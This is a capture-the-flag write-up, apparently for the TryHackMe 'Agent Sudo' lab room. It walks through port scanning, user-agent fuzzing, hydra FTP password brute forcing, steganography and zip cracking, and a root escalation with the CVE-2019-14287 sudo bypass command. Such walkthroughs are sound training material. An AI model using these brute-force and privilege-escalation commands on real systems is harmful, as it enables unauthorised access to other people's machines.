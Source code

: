 5 AUG 2021 

ip : 10.10.224.173

SCANNING
========
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

ENUMERATOIN
============

$ gobuster dir -u "http://10.10.224.173/" -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt | tee gobuster.txt

`doesn't sound so promising`

taking :

` Use your own codename as user-agent to access the site. 
  Agent R `

as a  hint i installed a user agent switcher and start fuzzing it with A , B , C 
and C returned a different page :

http://10.10.224.173/agent_C_attention.php


`````
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 

`````


user name = chris , and had a weak password .


ssh bruteforcing with hydra cheatsheet :

https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux/

ssh seems not to work so i try ftp .

$ hydra -l chris   -P /usr/share/wordlists/rockyou.txt 10.10.224.173  ftp     


```
[21][ftp] host: 10.10.224.173   login: chris   password: crystal

```

logged in at ftp with chris and found  : "read access only"

```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png

```
ftp >mget * 


then let's check them

found out that cute-alien.jpg has a passphrase when i tried "steghide extract -sf cute-alien.jpg"
 
$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt              
````
[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
````


````
└─$ cat cute-alien.jpg.out                                                                                2 ⚙
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

````

Credits
========
james,hackerrules!


$ssh james@ip 

[*] now you can read user.txt flag 

````
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
````

so he can't execute any as a root 

![Alt Text](https://media.giphy.com/media/a5viI92PAF89q/giphy.gif)

google : (ALL, !root) /bin/bash

found :

CVE-2019-14287

````
oe Vennix from Apple Information Security found that the function fails to parse all values correctly 

and when giving the parameter user id “-1” or its unsigned number “4294967295”, the command will run as root, bypassing the security policy entry

````

sudo -u#4294967295 bash

##### rooted !


let's get back to THM tasks :
-------------------------------

asking for a zip file pass but i can't find any  :( . 

we have found 2 images in the ftp so let's get benift from the other png 

`$binwalk -e cutie.png`

found a zipped file indeed let's crack it :) 

$zip2john zipped.zip | tee hashed 

$john hashed --wordlists=/usr/share/wordlists/rockyou.txt


`alien            (zipfile.zip/To_agentR.txt)`


in /home/james there was an img and there is a task about what is this incident so i google by images and found it :
![image](https://user-images.githubusercontent.com/67979878/128450852-231c158f-ce25-4ebd-ac42-4c855f1af221.png)




